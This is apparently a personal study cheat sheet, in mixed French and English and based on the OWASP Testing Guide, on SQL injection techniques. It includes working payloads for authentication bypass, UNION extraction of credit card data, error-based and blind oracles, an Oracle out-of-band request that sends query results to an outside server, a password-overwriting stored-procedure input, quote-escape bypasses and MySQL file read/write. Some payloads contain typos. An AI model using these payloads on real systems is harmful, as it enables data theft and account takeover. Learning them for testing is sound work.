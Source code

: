 # SQL Injection

## Standard Exploitation

Ecrire `‘or ‘1’ = ‘1`

```sql
# Transform this request : 
SELECT * FROM Users WHERE Username=’$username’ AND Password=’$password’

# In that : 
SELECT * FROM Users WHERE Username=’...’ OR ‘1’ = ‘1’ AND Password=’1’ OR ‘1’ = ‘1’
```

* Penser à utiliser `LIMIT` si besoin
* On peut aussi utiliser des commentaires au lieu de reformer la string `or 1=1 --`  \(be mindful of the last space\) ou `or 1=1#`
* Stacker des requêtes en terminant la 1ère avec un `;` \(impossible si la requête est dans une fonction la préparant, et non-géré par certains systèmes de db\) : `http://www.example.com/product.php?id=10; INSERT INTO users (…)` 

## Union Exploitation

Étendre une requête SELECT avec un `UNION`

```sql
# Tansform this request :
SELECT Name, Phone, Address FROM Users WHERE Id=$id

# In that :
SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

* `ALL` est utilisé pour contrecarrer `DISTINCT`
* On rajoute `1, 1` car il faut le même nombre de colonnes que le `SELECT` de base. 
  * Pour déterminer le nombre adéquat, on peut faire un `http://www.example.com/product.php?id=10 ORDER BY 10--` qui retournera soit une erreur, soit quelque chose s’il y a effectivement 10 colonnes.
* En occurrence c’est des int \(donc `1, 1`\), mais il faut que ces colonnes match aussi le types.
  * Pour ça, on peut tester en mettant d’abord null, puis en changeant le genre de données et en vérifiant l’erreur.
* Si seul le premier résultat est montré \(et donc celui de la requête véridique\), on peut fournir un id invalide, comme ça c’est le résultat de notre union qui sera remonté.

## Blind Exploitation \(Oracle\)

* Si le site réagit différemment si une query obtient un résultat ou non, on peut l'utiliser comme Oracle même s'il ne nous donne pas directement le résultat.
* Ca nous permet de deviner caractère par caracètre l'info qu'on recherche
* What to look for :
  * Difference in wording
  * Difference in response status code
  * Time-based difference

## Error Based Exploitation

Forcer des messages d’erreur donnant des informations. Par exemple, pour cette requête :

```sql
SELECT * FROM products WHERE id_product=$id_product
```

On peut lui demander de retourner un hostname en lui fournissant un user database name \(en oracle\) :

`http://www.example.com/product.php?id=10||UTL_INADDR. GET_HOST_NAME( (SELECT user FROM DUAL) )--`

Ce qui nous donnera cette erreur : `ORA-292257: host SCOTT unknown` révélant ainsi le user.

Cette technique diffère évidemment pour chaque database management system.

## Out of band exploitation

Cette technique consiste à utiliser des fonctions du DBMS \(Database management system\) pour envoyer les résultats à un serveur/autre, cela varie évidemment d’un DBMS à l’autre.

En oracle on pourrait par exemple faire ça :

`http://www.example.com/product.php?id=10||UTL_HTTP. request(‘testerserver.com:80’||(SELET user FROM DUAL)--`

Ce qui fera une requête GET vers testserver avec les résultats de la query. \(On peut setup le server avec netcat\).

## Stored Procedure Injection

Apparemment il existe ce genre de syntaxe :

```sql
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ‘ Select ‘ + @ columnamelist + ‘ from ReportTable‘ exec(@sqlstring) Go
```

Que l’on pourrait abuser avec ce genre d’input :`1 from users; update users set password = ‘password’; select *`

Mais je connais pas cette syntaxe donc je comprends pas trop.

## Insider Info

If you have an injection in a place where doing an "or 1=1" isn't useful, you may still be able to use it to show the table name & structure by injecting an sql command.

## MySQL Server Specificity

Disclaimer : y’a la même pour PL/SQL Server, Microsoft SQL Server, PostGre SQL, Miscrosoft Access et NoSQL mais vu que je les connais pas et que ça m’intéresse pas dans l’immédiat, je l’ai pas détaillé.

Fonctionnalités permettant des injections par version \(depuis y’a probablement eu de nouvelles versions\)

* From Version 4.0: UNION 
* From Version 4.1: Subqueries 
* From Version 5.0: Stored procedures, Stored functions and the view named INFORMATION\_SCHEMA 
* From Version 5.0.2: Triggers

### Single Quote Escape

MySQL permet d’escape les ', ce qui peut annuler certaines attaques quand ce n’est pas possible de contourner l’utilisation des '.

Mais dans certains cas on peut le contourner ainsi :

`password LIKE 'A%'` -&gt; `password LIKE 0x4125` -&gt; `password LIKE CHAR(65,37)`

If the db use the GBK charset \(simplified chinese\) and not the application, using `\xBF'` \(URL-encoded as `%bf%27`\) will prevent `addslashes` \(php function\) from correctly escaping the quote. \(Explained [here](http://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string)\)

### Lecture / Ecriture

* On peut écrire dans une fichier avec `into outfile 'path'` \(on ne peut pas contourner les ' ' donc s’ils sont escape, ça ne marche pas\).
* On peut lire avec `load_file(‘name’)`

### Autre

* On ne peut pas accumuler les requêtes \(donc utiliser le `;` pour en commencer une nouvelle\).
* Y’a 2 genres d’utilisateurs `USER()` et `CURRENT_USER()` mais je suis pas sûr des subtilités.
* Comments : `--` \(The space is important\) ou \`\#

### Fonctions utiles

* `LENGTH()`
* `SUBSTRING()`
* `BENCHMARK()`
* `SLEEP()`

## Source

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* Misc research

